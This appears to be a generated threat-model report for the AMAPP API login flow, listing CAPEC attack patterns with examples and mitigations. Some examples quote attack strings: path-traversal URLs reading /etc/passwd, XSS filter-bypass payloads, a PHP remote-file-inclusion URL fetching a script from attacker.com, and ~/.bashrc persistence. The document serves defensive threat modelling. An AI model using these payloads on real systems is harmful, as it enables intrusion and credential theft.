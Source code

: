 <link href="docs/Stylesheet.css" rel="stylesheet"></link>

## System Description
&nbsp;

Detailed DFD for user login/authentication process.

&nbsp;




## Dataflow Diagram - Level 1 DFD

![](amapp_dfd_auth_1.png)

&nbsp;

## Dataflows
&nbsp;

Name|From|To |Data|Protocol|Port
|:----:|:----:|:---:|:----:|:--------:|:----:|
|Submit login credentials|User|AMAPP API|[]||-1|
|Validate credentials|AMAPP API|AMAPP DB|[]||-1|
|Return user record|AMAPP DB|AMAPP API|[]||-1|
|Authentication JWT Token|AMAPP API|User|[]||-1|


## Data Dictionary
&nbsp;

Name|Description|Classification
|:----:|:--------:|:----:|


&nbsp;

## Potential Threats

&nbsp;
&nbsp;

|
<details>
  <summary>   INP03   --   Server Side Include (SSI) Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Consider a website hosted on a server that permits Server Side Includes (SSI), such as Apache with the Options Includes directive enabled. Whenever an error occurs, the HTTP Headers along with the entire request are logged, which can then be displayed on a page that allows review of such errors. A malicious user can inject SSI directives in the HTTP Headers of a request designed to create an error. When these logs are eventually reviewed, the server parses the SSI directives and executes them.</p>
  <h6>Mitigations</h6>
  <p>Set the OPTIONS IncludesNOEXEC in the global access.conf file or local .htaccess (Apache) file to deny SSI execution in directories that do not need them. All user controllable input must be appropriately sanitized before use in the application. This includes omitting, or encoding, certain characters or strings that have the potential of being interpreted as part of an SSI directive. Server Side Includes must be enabled only if there is a strong business reason to do so. Every additional component enabled on the web server increases the attack surface as well as administrative overhead.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/101.html, http://cwe.mitre.org/data/definitions/97.html, http://cwe.mitre.org/data/definitions/74.html, http://cwe.mitre.org/data/definitions/20.html, http://cwe.mitre.org/data/definitions/713.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP05   --   Command Line Execution through SQL Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>SQL injection vulnerability in Cacti 0.8.6i and earlier, when register_argc_argv is enabled, allows remote attackers to execute arbitrary SQL commands via the (1) second or (2) third arguments to cmd.php. NOTE: this issue can be leveraged to execute arbitrary commands since the SQL query results are later used in the polling_items array and popen function</p>
  <h6>Mitigations</h6>
  <p>Disable MSSQL xp_cmdshell directive on the databaseProperly validate the data (syntactically and semantically) before writing it to the database. Do not implicitly trust the data stored in the database. Re-validate it prior to usage to make sure that it is safe to use in a given context (e.g. as a command line argument).</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/108.html, http://cwe.mitre.org/data/definitions/89.html, http://cwe.mitre.org/data/definitions/74.html, http://cwe.mitre.org/data/definitions/20.html, http://cwe.mitre.org/data/definitions/78.html, http://cwe.mitre.org/data/definitions/114.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AA01   --   Authentication Abuse/ByPass</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary that has previously obtained unauthorized access to certain device resources, uses that access to obtain information such as location and network information.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication and authorization mechanisms. A proven protocol is OAuth 2.0, which enables a third-party application to obtain limited access to an API.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/114.html, http://cwe.mitre.org/data/definitions/287.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DS01   --   Excavation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>The adversary may collect this information through a variety of methods including active querying as well as passive observation. By exploiting weaknesses in the design or configuration of the target and its communications, an adversary is able to get the target to reveal more information than intended. Information retrieved may aid the adversary in making inferences about potential weaknesses, vulnerabilities, or techniques that assist the adversary&#x27;s objectives. This information may include details regarding the configuration or capabilities of the target, clues as to the timing or nature of activities, or otherwise sensitive information. Often this sort of attack is undertaken in preparation for some other type of attack, although the collection of information by itself may in some cases be the end goal of the adversary.</p>
  <h6>Mitigations</h6>
  <p>Minimize error/response output to only what is necessary for functional use or corrective language. Remove potentially sensitive information that is not necessary for the application&#x27;s functionality.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/116.html, http://cwe.mitre.org/data/definitions/200.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE02   --   Double Encoding</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Double Enconding Attacks can often be used to bypass Cross Site Scripting (XSS) detection and execute XSS attacks. The use of double encouding prevents the filter from working as intended and allows the XSS to bypass dectection. This can allow an adversary to execute malicious code.</p>
  <h6>Mitigations</h6>
  <p>Assume all input is malicious. Create a white list that defines all valid input to the software system based on the requirements specifications. Input that does not match against the white list should not be permitted to enter into the system. Test your decoding process against malicious input. Be aware of the threat of alternative method of data encoding and obfuscation technique such as IP address encoding. When client input is required from web-based forms, avoid using the GET method to submit data, as the method causes the form data to be appended to the URL and is easily manipulated. Instead, use the POST method whenever possible. Any security checks should occur after the data has been decoded and validated as correct data format. Do not repeat decoding process, if bad character are left after decoding process, treat the data as suspicious, and fail the validation process.Refer to the RFCs to safely decode URL. Regular expression can be used to match safe URL patterns. However, that may discard valid URL requests if the regular expression is too restrictive. There are tools to scan HTTP requests to the server for valid URL such as URLScan from Microsoft (http://www.microsoft.com/technet/security/tools/urlscan.mspx).</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/120.html, http://cwe.mitre.org/data/definitions/173.html, http://cwe.mitre.org/data/definitions/177.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC01   --   Privilege Abuse</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary that has previously obtained unauthorized access to certain device resources, uses that access to obtain information such as location and network information.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication and authorization mechanisms. A proven protocol is OAuth 2.0, which enables a third-party application to obtain limited access to an API.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/122.html, http://cwe.mitre.org/data/definitions/732.html, http://cwe.mitre.org/data/definitions/269.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DO01   --   Flooding</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to bring a network or service down by flooding it with large amounts of traffic.</p>
  <h6>Mitigations</h6>
  <p>Ensure that protocols have specific limits of scale configured. Specify expectations for capabilities and dictate which behaviors are acceptable when resource allocation reaches limits. Uniformly throttle all requests in order to make it more difficult to consume resources more quickly than they can again be freed.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/125.html, http://cwe.mitre.org/data/definitions/404.html, http://cwe.mitre.org/data/definitions/770.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   HA01   --   Path Traversal</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>An example of using path traversal to attack some set of resources on a web server is to use a standard HTTP request http://example/../../../../../etc/passwd From an attacker point of view, this may be sufficient to gain access to the password file on a poorly protected system. If the attacker can list directories of critical resources then read only access is not sufficient to protect the system.</p>
  <h6>Mitigations</h6>
  <p>Design: Configure the access control correctly. Design: Enforce principle of least privilege. Design: Execute programs with constrained privileges, so parent process does not open up further vulnerabilities. Ensure that all directories, temporary directories and files, and memory are executing with limited privileges to protect against remote execution. Design: Input validation. Assume that user inputs are malicious. Utilize strict type, character, and encoding enforcement. Design: Proxy communication to host, so that communications are terminated at the proxy, sanitizing the requests before forwarding to server host. 6. Design: Run server interfaces with a non-root account and/or utilize chroot jails or other configuration techniques to constrain privileges even if attacker gains some limited access to commands. Implementation: Host integrity monitoring for critical files, directories, and processes. The goal of host integrity monitoring is to be aware when a security issue has occurred so that incident response and other forensic activities can begin. Implementation: Perform input validation for all remote content, including remote and user-generated content. Implementation: Perform testing such as pen-testing and vulnerability scanning to identify directories, programs, and interfaces that grant direct access to executables. Implementation: Use indirect references rather than actual file names. Implementation: Use possible permissions on file access when developing and deploying web applications. Implementation: Validate user input by only accepting known good. Ensure all content that is delivered to client is sanitized against an acceptable content specification -- whitelisting approach.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/126.html, http://cwe.mitre.org/data/definitions/22.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DO02   --   Excessive Allocation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>In an Integer Attack, the adversary could cause a variable that controls allocation for a request to hold an excessively large value. Excessive allocation of resources can render a service degraded or unavailable to legitimate users and can even lead to crashing of the target.</p>
  <h6>Mitigations</h6>
  <p>Limit the amount of resources that are accessible to unprivileged users. Assume all input is malicious. Consider all potentially relevant properties when validating input. Consider uniformly throttling all requests in order to make it more difficult to consume resources more quickly than they can again be freed. Use resource-limiting settings, if possible.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/130.html, http://cwe.mitre.org/data/definitions/770.html, http://cwe.mitre.org/data/definitions/404.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP08   --   Format String Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Untrusted search path vulnerability in the add_filename_to_string function in intl/gettext/loadmsgcat.c for Elinks 0.11.1 allows local users to cause Elinks to use an untrusted gettext message catalog (.po file) in a ../po directory, which can be leveraged to conduct format string attacks.</p>
  <h6>Mitigations</h6>
  <p>Limit the usage of formatting string functions. Strong input validation - All user-controllable input must be validated and filtered for illegal formatting characters.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/135.html, http://cwe.mitre.org/data/definitions/134.html, http://cwe.mitre.org/data/definitions/133.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP09   --   LDAP Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>PowerDNS before 2.9.18, when running with an LDAP backend, does not properly escape LDAP queries, which allows remote attackers to cause a denial of service (failure to answer ldap questions) and possibly conduct an LDAP injection attack.</p>
  <h6>Mitigations</h6>
  <p>Strong input validation - All user-controllable input must be validated and filtered for illegal characters as well as LDAP content. Use of custom error pages - Attackers can glean information about the nature of queries from descriptive error messages. Input validation must be coupled with customized error pages that inform about an error without disclosing information about the LDAP or application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/136.html, http://cwe.mitre.org/data/definitions/77.html, http://cwe.mitre.org/data/definitions/90.html, http://cwe.mitre.org/data/definitions/20.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP10   --   Parameter Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>The target application accepts a string as user input, fails to sanitize characters that have a special meaning in the parameter encoding, and inserts the user-supplied string in an encoding which is then processed.</p>
  <h6>Mitigations</h6>
  <p>Implement an audit log written to a separate host. In the event of a compromise, the audit log may be able to provide evidence and details of the compromise. Treat all user input as untrusted data that must be validated before use.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/137.html, http://cwe.mitre.org/data/definitions/88.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP11   --   Relative Path Traversal</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The attacker uses relative path traversal to access files in the application. This is an example of accessing user&#x27;s password file. http://www.example.com/getProfile.jsp?filename=../../../../etc/passwd However, the target application employs regular expressions to make sure no relative path sequences are being passed through the application to the web page. The application would replace all matches from this regex with the empty string. Then an attacker creates special payloads to bypass this filter: http://www.example.com/getProfile.jsp?filename=%2e%2e/%2e%2e/%2e%2e/%2e%2e /etc/passwd When the application gets this input string, it will be the desired vector by the attacker.</p>
  <h6>Mitigations</h6>
  <p>Design: Input validation. Assume that user inputs are malicious. Utilize strict type, character, and encoding enforcement. Implementation: Perform input validation for all remote content, including remote and user-generated content. Implementation: Validate user input by only accepting known good. Ensure all content that is delivered to client is sanitized against an acceptable content specification -- whitelisting approach. Implementation: Prefer working without user input when using file system calls. Implementation: Use indirect references rather than actual file names. Implementation: Use possible permissions on file access when developing and deploying web applications.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/139.html, http://cwe.mitre.org/data/definitions/23.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP14   --   Input Data Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>A target application has an integer variable for which only some integer values are expected by the application. But since it does not have any checks in place to validate the value of the input, the attacker is able to manipulate the targeted integer variable such that normal operations result in non-standard values.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/153.html, http://cwe.mitre.org/data/definitions/20.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR03   --   Dictionary-based Password Attack</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>A system user selects the word treacherous as their passwords believing that it would be very difficult to guess. The password-based dictionary attack is used to crack this password and gain access to the account.The Cisco LEAP challenge/response authentication mechanism uses passwords in a way that is susceptible to dictionary attacks, which makes it easier for remote attackers to gain privileges via brute force password guessing attacks. Cisco LEAP is a mutual authentication algorithm that supports dynamic derivation of session keys. With Cisco LEAP, mutual authentication relies on a shared secret, the user&#x27;s logon password (which is known by the client and the network), and is used to respond to challenges between the user and the Remote Authentication Dial-In User Service (RADIUS) server. Methods exist for someone to write a tool to launch an offline dictionary attack on password-based authentications that leverage Microsoft MS-CHAP, such as Cisco LEAP. The tool leverages large password lists to efficiently launch offline dictionary attacks against LEAP user accounts, collected through passive sniffing or active techniques.See also: CVE-2003-1096</p>
  <h6>Mitigations</h6>
  <p>Create a strong password policy and ensure that your system enforces this policy.Implement an intelligent password throttling mechanism. Care must be taken to assure that these mechanisms do not excessively enable account lockout attacks such as CAPEC-02.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/16.html, http://cwe.mitre.org/data/definitions/521.html, http://cwe.mitre.org/data/definitions/262.html, http://cwe.mitre.org/data/definitions/263.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DS03   --   Footprinting</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very Low</p>
  <h6>Example Instances</h6>
  <p>In this example let us look at the website http://www.example.com to get much information we can about Alice. From the website, we find that Alice also runs foobar.org. We type in www example.com into the prompt of the Name Lookup window in a tool, and our result is this IP address: 192.173.28.130 We type the domain into the Name Lookup prompt and we are given the same IP. We can safely say that example and foobar.org are hosted on the same box. But if we were to do a reverse name lookup on the IP, which domain will come up? www.example.com or foobar.org? Neither, the result is nijasvspirates.org. So nijasvspirates.org is the name of the box hosting 31337squirrel.org and foobar.org. So now that we have the IP, let&#x27;s check to see if nijasvspirates is awake. We type the IP into the prompt in the Ping window. We&#x27;ll set the interval between packets to 1 millisecond. We&#x27;ll set the number of seconds to wait until a ping times out to 5. We&#x27;ll set the ping size to 500 bytes and we&#x27;ll send ten pings. Ten packets sent and ten packets received. nijasvspirates.org returned a message to my computer within an average of 0.35 seconds for every packet sent. nijasvspirates is alive. We open the Whois window and type nijasvspirates.org into the Query prompt, and whois.networksolutions.com into the Server prompt. This means we&#x27;ll be asking Network Solutions to tell us everything they know about nijasvspirates.org. The result is this laundry list of info: Registrant: FooBar (nijasvspirates -DOM) p.o.box 11111 SLC, UT 84151 US Domain Name: nijasvspirates.ORG Administrative Contact, Billing Contact: Smith, John jsmith@anonymous.net FooBar p.o.box 11111 SLC, UT 84151 555-555-6103 Technical Contact: Johnson, Ken kj@fierymonkey.org fierymonkey p.o.box 11111 SLC, UT 84151 555-555-3849 Record last updated on 17-Aug-2001. Record expires on 11-Aug-2002. Record created on 11-Aug-2000. Database last updated on 12-Dec-2001 04:06:00 EST. Domain servers in listed order: NS1. fierymonkey.ORG 192.173.28.130 NS2. fierymonkey.ORG 64.192.168.80 A corner stone of footprinting is Port Scanning. Let&#x27;s port scan nijasvspirates.org and see what kind of services are running on that box. We type in the nijasvspirates IP into the Host prompt of the Port Scan window. We&#x27;ll start searching from port number 1, and we&#x27;ll stop at the default Sub7 port, 27374. Our results are: 21 TCP ftp 22 TCP ssh SSH-1.99-OpenSSH_2.30 25 TCP smtp 53 TCP domain 80 TCP www 110 TCP pop3 111 TCP sunrpc 113 TCP ident Just by this we know that Alice is running a website and email, using POP3, SUNRPC (SUN Remote Procedure Call), and ident.</p>
  <h6>Mitigations</h6>
  <p>Keep patches up to date by installing weekly or daily if possible.Shut down unnecessary services/ports.Change default passwords by choosing strong passwords.Curtail unexpected input.Encrypt and password-protect sensitive data.Avoid including information that has the potential to identify and compromise your organization&#x27;s security such as access to business plans, formulas, and proprietary documents.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/169.html, http://cwe.mitre.org/data/definitions/200.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC06   --   Using Malicious Files</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>Consider a directory on a web server with the following permissions drwxrwxrwx 5 admin public 170 Nov 17 01:08 webroot This could allow an attacker to both execute and upload and execute programs&#x27; on the web server. This one vulnerability can be exploited by a threat to probe the system and identify additional vulnerabilities to exploit.</p>
  <h6>Mitigations</h6>
  <p>Design: Enforce principle of least privilegeDesign: Run server interfaces with a non-root account and/or utilize chroot jails or other configuration techniques to constrain privileges even if attacker gains some limited access to commands.Implementation: Perform testing such as pen-testing and vulnerability scanning to identify directories, programs, and interfaces that grant direct access to executables.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/17.html, http://cwe.mitre.org/data/definitions/732.html, http://cwe.mitre.org/data/definitions/272.html, http://cwe.mitre.org/data/definitions/270.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   HA03   --   Web Application Fingerprinting</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Low</p>
  <h6>Example Instances</h6>
  <p>An attacker sends malformed requests or requests of nonexistent pages to the server. Consider the following HTTP responses. Response from Apache 1.3.23$ nc apache.server.com80 GET / HTTP/3.0 HTTP/1.1 400 Bad RequestDate: Sun, 15 Jun 2003 17:12: 37 GMTServer: Apache/1.3.23Connection: closeTransfer: chunkedContent-Type: text/HTML; charset=iso-8859-1 Response from IIS 5.0$ nc iis.server.com 80GET / HTTP/3.0 HTTP/1.1 200 OKServer: Microsoft-IIS/5.0Content-Location: http://iis.example.com/Default.htmDate: Fri, 01 Jan 1999 20:14: 02 GMTContent-Type: text/HTMLAccept-Ranges: bytes Last-Modified: Fri, 01 Jan 1999 20:14: 02 GMTETag: W/e0d362a4c335be1: ae1Content-Length: 133 [R.170.2]</p>
  <h6>Mitigations</h6>
  <p>Implementation: Obfuscate server fields of HTTP response.Implementation: Hide inner ordering of HTTP response header.Implementation: Customizing HTTP error codes such as 404 or 500.Implementation: Hide URL file extension.Implementation: Hide HTTP response header software information filed.Implementation: Hide cookie&#x27;s software information filed.Implementation: Appropriately deal with error messages.Implementation: Obfuscate database type in Database API&#x27;s error message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/170.html, http://cwe.mitre.org/data/definitions/497.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   SC02   --   XSS Targeting Non-Script Elements</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>An online discussion forum allows its members to post HTML-enabled messages, which can also include image tags. A malicious user embeds JavaScript in the IMG tags in his messages that gets executed within the victim&#x27;s browser whenever the victim reads these messages. &lt;img src=javascript:alert(&#x27;XSS&#x27;)&gt; When executed within the victim&#x27;s browser, the malicious script could accomplish a number of adversary objectives including stealing sensitive information such as usernames, passwords, or cookies.</p>
  <h6>Mitigations</h6>
  <p>In addition to the traditional input fields, all other user controllable inputs, such as image tags within messages or the likes, must also be subjected to input validation. Such validation should ensure that content that can be potentially interpreted as script by the browser is appropriately filtered.All output displayed to clients must be properly escaped. Escaping ensures that the browser interprets special scripting characters literally and not as script to be executed.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/18.html, http://cwe.mitre.org/data/definitions/80.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC07   --   Exploiting Incorrectly Configured Access Control Security Levels</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>For example, an incorrectly configured Web server, may allow unauthorized access to it, thus threaten the security of the Web application.</p>
  <h6>Mitigations</h6>
  <p>Design: Configure the access control correctly.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/180.html, http://cwe.mitre.org/data/definitions/732.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   SC03   --   Embedding Scripts within Scripts</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Ajax applications enable rich functionality for browser based web applications. Applications like Google Maps deliver unprecedented ability to zoom in and out, scroll graphics, and change graphic presentation through Ajax. The security issues that an attacker may exploit in this instance are the relative lack of security features in JavaScript and the various browser&#x27;s implementation of JavaScript, these security gaps are what XSS and a host of other client side vulnerabilities are based on. While Ajax may not open up new security holes, per se, due to the conversational aspects between client and server of Ajax communication, attacks can be optimized. A single zoom in or zoom out on a graphic in an Ajax application may round trip to the server dozens of times. One of the first steps many attackers take is frequently footprinting an environment, this can include scanning local addresses like 192.*.*.* IP addresses, checking local directories, files, and settings for known vulnerabilities, and so on. &lt;IMG SRC=javascript:alert(&#x27;XSS&#x27;)&gt; The XSS script that is embedded in a given IMG tag can be manipulated to probe a different address on every click of the mouse or other motions that the Ajax application is aware of. In addition the enumerations allow for the attacker to nest sequential logic in the attacks. While Ajax applications do not open up brand new attack vectors, the existing attack vectors are more than adequate to execute attacks, and now these attacks can be optimized to sequentially execute and enumerate host environments.~/.bash_profile and ~/.bashrc are executed in a user&#x27;s context when a new shell opens or when a user logs in so that their environment is set correctly. ~/.bash_profile is executed for login shells and ~/.bashrc is executed for interactive non-login shells. This means that when a user logs in (via username and password) to the console (either locally or remotely via something like SSH), ~/.bash_profile is executed before the initial command prompt is returned to the user. After that, every time a new shell is opened, ~/.bashrc is executed. This allows users more fine grained control over when they want certain commands executed. These files are meant to be written to by the local user to configure their own environment; however, adversaries can also insert code into these files to gain persistence each time a user logs in or opens a new shell.</p>
  <h6>Mitigations</h6>
  <p>Use browser technologies that do not allow client side scripting.Utilize strict type, character, and encoding enforcement.Server side developers should not proxy content via XHR or other means. If a HTTP proxy for remote content is setup on the server side, the client&#x27;s browser has no way of discerning where the data is originating from.Ensure all content that is delivered to client is sanitized against an acceptable content specification.Perform input validation for all remote content.Perform output validation for all remote content.Disable scripting languages such as JavaScript in browserSession tokens for specific hostPatching software. There are many attack vectors for XSS on the client side and the server side. Many vulnerabilities are fixed in service packs for browser, web servers, and plug in technologies, staying current on patch release that deal with XSS countermeasures mitigates this.Privileges are constrained, if a script is loaded, ensure system runs in chroot jail or other limited authority mode</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/19.html, http://cwe.mitre.org/data/definitions/284.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP16   --   PHP Remote File Inclusion</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The adversary controls a PHP script on a server http://attacker.com/rfi.txt The .txt extension is given so that the script doesn&#x27;t get executed by the attacker.com server, and it will be downloaded as text. The target application is vulnerable to PHP remote file inclusion as following: include($_GET[&#x27;filename&#x27;] . &#x27;.txt&#x27;) The adversary creates an HTTP request that passes his own script in the include: http://example.com/file.php?filename=http://attacker.com/rfi with the concatenation of the .txt prefix, the PHP runtime download the attack&#x27;s script and the content of the script gets executed in the same context as the rest of the original script.</p>
  <h6>Mitigations</h6>
  <p>Implementation: Perform input validation for all remote content, including remote and user-generated contentImplementation: Only allow known files to be included (whitelist)Implementation: Make use of indirect references passed in URL parameters instead of file namesConfiguration: Ensure that remote scripts cannot be include in the include or require PHP directives</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/193.html, http://cwe.mitre.org/data/definitions/98.html, http://cwe.mitre.org/data/definitions/80.html, http://cwe.mitre.org/data/definitions/714.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AA02   --   Principal Spoof</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary may craft messages that appear to come from a different principle or use stolen / spoofed authentication credentials.</p>
  <h6>Mitigations</h6>
  <p>Employ robust authentication processes (e.g., multi-factor authentication).</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/195.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DS04   --   XSS Targeting Error Pages</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>A third party web server fails to adequately sanitize messages sent in error pages. Adversary takes advantage of the data displayed in the error message.</p>
  <h6>Mitigations</h6>
  <p>Design: Use libraries and templates that minimize unfiltered input.Implementation: Normalize, filter and white list any input that will be used in error messages.Implementation: The victim should configure the browser to minimize active content from untrusted sources.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/198.html, http://cwe.mitre.org/data/definitions/81.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   SC04   --   XSS Using Alternate Syntax</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>In this example, the attacker tries to get a script executed by the victim&#x27;s browser. The target application employs regular expressions to make sure no script is being passed through the application to the web page; such a regular expression could be ((?i)script), and the application would replace all matches by this regex by the empty string. An attacker will then create a special payload to bypass this filter: &lt;scriscriptpt&gt;alert(1)&lt;/scscriptript&gt; when the applications gets this input string, it will replace all script (case insensitive) by the empty string and the resulting input will be the desired vector by the attacker. In this example, we assume that the application needs to write a particular string in a client-side JavaScript context (e.g., &lt;script&gt;HERE&lt;/script&gt;). For the attacker to execute the same payload as in the previous example, he would need to send alert(1) if there was no filtering. The application makes use of the following regular expression as filter ((w+)s*(.*)|alert|eval|function|document) and replaces all matches by the empty string. For example each occurrence of alert(), eval(), foo() or even the string alert would be stripped. An attacker will then create a special payload to bypass this filter: this[&#x27;al&#x27; + &#x27;ert&#x27;](1) when the applications gets this input string, it won&#x27;t replace anything and this piece of JavaScript has exactly the same runtime meaning as alert(1). The attacker could also have used non-alphanumeric XSS vectors to bypass the filter; for example, 